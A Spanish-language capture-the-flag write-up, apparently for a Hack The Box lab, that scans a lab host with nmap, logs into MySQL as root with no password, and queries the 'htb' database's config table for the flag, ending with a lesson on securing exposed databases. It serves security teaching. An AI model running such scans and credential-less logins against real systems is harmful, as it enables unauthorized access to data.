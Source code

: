 ----------------
- Tags: #vulnerabilidad #database #mysql #sql #reconocimiento #weakcredentials 
------------------

![](../img/d7423e40853f5444ca382dbde26e3cd2.png).

![](../img/1cbe585764ed4542eb5a070f286ea7dd.png)

Comenzamos identificando servicios abiertos con un escaneo rápido:

```bash
nmap -p- --min-rate 5000 -T4 -n -Pn 10.129.131.179
```

![](../img/293f9c68e20638cbec41978f7ec9e6f0.png)

Vemos que el puerto abierto es el **3306**, correspondiente al servicio **MySQL**.

## 🔐 Conexión al servicio MySQL

Nos conectamos directamente con `mysql` como usuario `root`, sin contraseña:

```bash
mysql -h 10.129.131.179 -u root 
```

Accedemos correctamente. Desde el monitor de MariaDB, exploramos las bases de datos:

![](../img/d6008227f015c174f3a62df444f86c8d.png)

```bash
SHOW DATABASES;
```

Identificamos una base de datos que no es del sistema: **htb**

![](../img/f6783acea00a3994af798b9268e25e20.png)

## 📂 Exploración de la base de datos `htb`

Seleccionamos la base de datos:

```bash
USE htb;
```

![](../img/978497a4f4f87012e1b531ee61fe79d0.png)

Comprobamos qué tablas contiene:

```bash
SHOW TABLES;
```

![](../img/20e60c6590a02ccd9466d779e8365db6.png)

La tabla **config** llama la atención, así que la consultamos:

```bash
SELECT * FROM config;
```

![](../img/c4af0006089880ab517b6b8d9b93290f.png)

En la columna `value`, dentro de la fila `flag`, encontramos la flag.

📌 **Flag encontrada:**

## ✅ Conclusión final

- Se expone un servicio de **MySQL sin contraseña** para el usuario root, lo que representa una gran vulnerabilidad.
    
- Mediante conexión directa, se accede a la base de datos `htb` y se consulta su contenido.
    
- La flag se encuentra fácilmente en la tabla `config`.
    

🧠 **Lección aprendida:** Nunca se debe dejar un servicio de base de datos accesible desde fuera y menos aún sin autenticación. Es fundamental aplicar controles de acceso estrictos y reglas de firewall adecuadas.
